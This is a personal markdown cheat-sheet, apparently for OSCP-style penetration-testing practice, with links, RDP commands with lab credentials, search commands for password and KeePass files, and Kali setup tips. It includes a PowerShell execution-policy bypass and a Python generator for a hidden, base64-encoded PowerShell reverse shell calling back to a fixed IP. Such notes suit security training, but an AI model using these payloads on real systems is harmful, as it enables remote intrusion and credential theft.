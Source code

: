 ## Quick Notes

## Links

- [Payload All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/)
- [Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/)
- [CyberChef](https://gchq.github.io/CyberChef/)
- [Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/)
- [Markdown Reference](https://wordpress.com/support/markdown-quick-reference/)
- [Report Maker](https://github.com/noraj/OSCP-Exam-Report-Template-Markdown/tree/master)
### Random things 

### Remote Desktop Specific

```
xfreerdp /cert-ignore /compression /auto-reconnect /u:dmzadmin /p:SlimGodhoodMope /v:192.168.188.191 /w:1600 /h:800 

rdesktop -z -P -x m -u dmzadmin -p SlimGodhoodMope 192.168.188.191 -r 

```

### Powershell Bypass Policy
```
Do this to run powershell:
powershell -ExecutionPolicy Bypass -File GetCLSID.ps1
```
### Kill a Process
```

To kill a port process on windows:

netstat -ano | findstr :<PORT>
taskkill /PID <PID> /F

To kill a port process on Kali:

sudo fuser -k 81/udp
```

### Find Things
```

To find things:

locate something
find / -name exact_name>/dev/null
find /home -name *.jpg

-O1 – (Default) filter based on file name first
-O2 – File name first, then file-type
-O3 – Allow find to automatically re-order the search based on efficient use of resources and likelihood of success
-maxdepth X – Search this directory along with all sub-directories to a level of X
-iname – Search while ignoring text case.
-not – Only produce results that don’t match the test case
-type f – Look for files
-type d – Look for directories


To search for text within files:
grep mail /etc/passwd


On Windows:

Get-ChildItem -Path C:\ -Include *.kdbx* -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *proof.txt* -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *password* -File -Recurse -ErrorAction SilentlyContinue

FINDSTR /i /r /c:"hello.*goodbye" /c:"goodbye.*hello" Demo.txt

FIND [SWITCH] "String" [Pathname/s]

1. /v – This switch will show any lines that don’t contain the string of words you specified.
2. /c – This switch tells the find tool to count how many lines contain your search terms.
3. /n – This switch shows the numbers that correspond with the lines.
4. /i – This switch tells find to ignore the case of text you are searching for.
```


### Fix Kali Copy Paste Issue
```
Kali VM Fix Copy/Paste:

1. `sudo apt-get autoremove open-vm-tools`
2. Install VMware Tools by following the usual method (`Virtual Machine --> Reinstall VMWare Tools`)
3. Reboot the VM
4. `sudo apt-get install open-vm-tools-desktop`
5. Reboot the VM, after the reboot copy/paste and drag/drop will work!



Quick Python Powershell Reverse Shell generator
---

import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.164",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)

```


### Show Tun0 IP Toolbar

```
Generic Monitor -> Properties

/opt/showtun0ip.sh

---
ADDR=$(ip addr | grep tun0|grep inet|awk '{print $2}'|cut -d "/" -f 1)
echo "$ADDR" | sed 's/$/ /g'


```